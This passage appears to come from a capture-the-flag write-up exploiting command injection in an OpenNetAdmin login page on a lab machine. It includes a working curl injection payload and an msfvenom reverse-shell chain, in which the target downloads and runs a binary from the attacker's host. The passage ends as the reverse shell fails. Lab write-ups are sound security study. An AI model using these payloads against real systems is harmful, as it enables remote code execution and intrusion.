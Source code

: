 Both are for a basic POST request that does command injection. Test this:

```bash
curl -s --data "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo 'BUBBA IS HERE'&xajaxargs[]=ping" http://10.10.10.171/ona/login.php 
```

Running this results in the following HTML from the target:

![test1](./openadmin/test1.png)

Since `BUBBA IS HERE` is returned, that is code execution! Use this to get a shell on the target

- Check first if `wget` is installed on the target using a `which wget` payload

```bash
# generate payload 
msfvenom -p linux/x64/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
# host payload
sudo python3 -m http.server 80
# setup listener
nc -nvlp 6969
# trigger payload execution
P='wget -O /tmp/bubba.elf http://10.10.14.27/bubba.elf && chmod 777 /tmp/bubba.elf && /tmp/bubba.elf'
P_ENC=$(python3 -c "import urllib.parse;print(urllib.parse.quote('$P'))")
curl -s --data "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;$P_ENC&xajaxargs[]=ping" http://10.10.10.171/ona/login.php 
```

But this does not return a reverse shell? The download works but not the reverse shell... Set up a basic "shell" to do some target enumeration:
